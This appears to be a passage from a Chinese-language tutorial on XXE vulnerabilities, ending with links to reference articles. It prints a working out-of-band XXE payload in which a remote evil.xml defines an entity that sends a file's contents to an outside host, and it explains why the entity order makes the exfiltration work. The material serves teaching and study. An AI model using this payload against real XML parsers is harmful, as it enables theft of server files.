 ``` xml
<!ENTITY % remote SYSTEM "http://xxx.xxx.xx.xx/evil.xml"> %remote;
%all;
]>
<root>&send;</root>
```
evil.xml
``` xml
<!ENTITY % all "<!ENTITY send SYSTEM 'http://xxx.xxx.xx.xx/?file=%file;'>">
```
实体remote，all，send的引用顺序很重要，首先对remote引用目的是将外部文件evil.xml引入到解释上下文中，然后执行%all，这时会检测到send实体，在root节点中引用send，就可以成功实现数据转发

# 参考文章
[一篇文章带你深入理解漏洞之 XXE 漏洞](https://xz.aliyun.com/t/3357)天师太强了!!!!  
[qiqi学姐的文章](https://bbs.xdsec.org/d/321-xxe)  
